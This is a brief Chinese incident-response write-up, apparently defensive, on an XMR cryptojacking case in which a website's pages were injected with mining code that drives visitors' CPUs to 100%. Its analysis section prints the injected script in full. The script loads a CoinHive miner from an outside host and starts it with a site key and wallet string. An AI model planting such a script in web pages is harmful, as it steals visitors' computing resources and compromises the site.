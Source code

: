 门罗币(Monero 或 XMR)，它是一个非常注重于隐私、匿名性和不可跟踪的加密数字货币。只需在网页中配置好js脚本，打开网页就可以挖矿，是一种非常简单的挖矿方式，而通过这种恶意挖矿获取数字货币是黑灰色产业获取收益的重要途径。


# 0X00 现象描述
利用XMR恶意挖矿，会大量占用用户的CPU资源，严重影响了网站的用户体验。

从08/09日0点开始，局域网内某IP访问网站页面会触发安全预警，只要访问此服务器上的网页，CPU直线上升100%<br />![2-5.jpg](../../_img\05-应急响应/1656922927988-b035140e-3cea-4b70-bb7f-e6c8228000c0.jpeg)


# 0X01 问题解析
通过获取恶意网页url，对网页页面进行分析，发现网站页面被植入在线门罗币挖矿代码：<br />`<script>     var script = document.createElement('script');      script.onload = function () {           // XMR Pool hash   		var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu');          // TODO: Replace the below string with wallet string   		m.start('47DuVLx9UuD1gEk3M4Wge1BwQyadQs5fTew8Q3Cxi95c8W7tKTXykgDfj7HVr9aCzzUNb9vA6eZ3eJCXE9yzhmTn1bjACGK');       };       script.src = 'https://coinhive.com/lib/coinhive.min.js';       document.head.appendChild(script);   </script>`

删除js里面的恶意代码，网站被XMR 恶意挖矿，服务器已经被攻击，进一步做服务器入侵排查。
